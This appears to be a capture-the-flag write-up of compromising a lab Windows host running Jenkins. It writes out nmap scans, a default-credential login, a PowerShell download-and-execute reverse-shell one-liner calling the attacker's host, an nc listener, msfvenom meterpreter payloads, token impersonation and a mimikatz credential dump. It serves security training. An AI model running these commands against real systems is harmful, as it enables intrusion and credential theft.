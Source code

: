 Exploited Jenkins gained an initial shell, then escalated privileges by exploiting Windows authentication tokens. Deployment of meterpreter with web_delivery. 

----------

Legal Usage: The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “ethical hacker” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.
By continued reading, you acknowledge the aforementioned user risks/responsibilities.

----------

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775160807_image.png)



# Recon
Target: 10.10.230.14

**Nmap scan:**

    nmap -sV -sC -oA nmap/alfred 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766466669_image.png)


**Nmap all ports:**

    nmap -p- nmap/alfred_allports 10.10.230.14 -Pn

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767313953_image.png)


Open Port Review:

Port 80 - Microsft IIS httpd 7.5 - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766694659_image.png)


image bruce.jpg and email exposed `alfred@wayneeterprises.com`.

Port 3389 - Remote RDP

Port 8080 - Jetty 9.4.z-SNAPSHOT - webserver

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766826381_image.png)


login attempt with `admin:admin` enable access to backend.

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585766903480_image.png)


version number exposed as `Jenkins ver. 2.190.1`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767468918_image.png)


Jenkins searchsploit:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767530004_image.png)


## accessing console

discovered console:

    http://10.10.230.14:8080/job/project/1/console

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585767075782_image.png)


Under “Build” section of the `/job/project/configure` the “whoami” offers an ability execute commands on the target system.


# Reverse Shell

using nishang `PowerShellTcp.ps1` to create a reverse shell:

Github Link: https://github.com/samratashok/nishang.git

creating webserver on local machine via python3

    python3 -m http.server

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768324089_image.png)


adding powershell command to console “Build” section:

    powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.20.45:8000/PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.20.45 -Port 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768533565_image.png)


Listener setup:
rlwrap allows for (up, down, left, right keyboard commands)

    rlwrap nc -lvnp 9000

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768713613_image.png)

**Connection received:**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585768868433_image.png)


**Systeminfo**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771800880_image.png)


**User.txt** 
located: `C:\Users\bruce\desktop\user.txt`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585776055961_image.png)


# Upgrading shell to meterpreter shell

create payload with msfvenom

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=10.8.20.45 LPORT=9001 -f exe -o revshell9001exit.exe

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769169449_image.png)

**Setup multi/handler**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585769423692_image.png)

**Download revshell to target**

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.20.45:8000/revshell9001.exe','revshell9001.exe')"

Start process with:

    Start-Process "revshell9001.exe"

(in my case meterpreter would hang and never fully connect to handler. Moved to creating meterpreter session with web_delivery)

**Creating Meterpreter shell via web_delivery**

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774103165_image.png)


took the generated code and executed on target:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774177738_image.png)

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774143422_image.png)


**Migrate to higher process**

    ps
    migrate

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774491520_image.png)


elevated:

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774529650_image.png)


# Windows User Impersonation

investigate privleages of bruce:

    whoami /priv

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585771129738_image.png)


from this we are able exploit as they are enabled:

    SeDebugPrivilege
    SeImpersonatePrivilege 

**Load Incognito + List tokens within meterpreter**

    load incognito
    list_tokens -g

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585774715943_image.png)


 **Impersonate token**

    impersonate_token "BUILTIN\Administrators"

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585773873560_image.png)


## root.txt

located at `C:\Windows\System32\config`

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775871288_image.png)


# Post Exploitation
## mimikatz extract
    load kiwi
    get_creds

![](https://paper-attachments.dropbox.com/s_61BA8F69E29EA135ED40C9EA88A2EC4EA2D184DC38B2C055BCF95CCA7FDAF01A_1585775978547_image.png)


